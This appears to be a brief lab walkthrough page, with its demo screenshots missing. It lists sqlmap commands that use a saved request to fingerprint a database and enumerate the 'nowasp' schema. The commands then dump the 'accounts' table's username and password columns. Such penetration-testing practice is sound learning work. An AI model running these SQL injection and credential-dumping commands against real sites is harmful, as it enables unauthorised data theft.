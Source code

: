 #### Add to your Blog

- Demo

![](images/1.png)

![](images/2.png)

![](images/3.png)

![](images/4.png)

![](images/5.png)

![](images/6.png)

![](images/7.png)

![](images/8.png)

![](images/9.png)

![](images/10.png)

![](images/11.png)

![](images/12.png)

![](images/13.png)

![](images/14.png)

![](images/15.png)

- Commands

```sh
python sqlmap.py -r req.txt --threads=10 -f
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL --dbs
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL -D nowasp --tables
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL -D nowasp -T accounts --columns
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL -D nowasp -T accounts --dump
python sqlmap.py -r req.txt --threads=10 --dbms=MySQL -D nowasp -T accounts -C username,password
```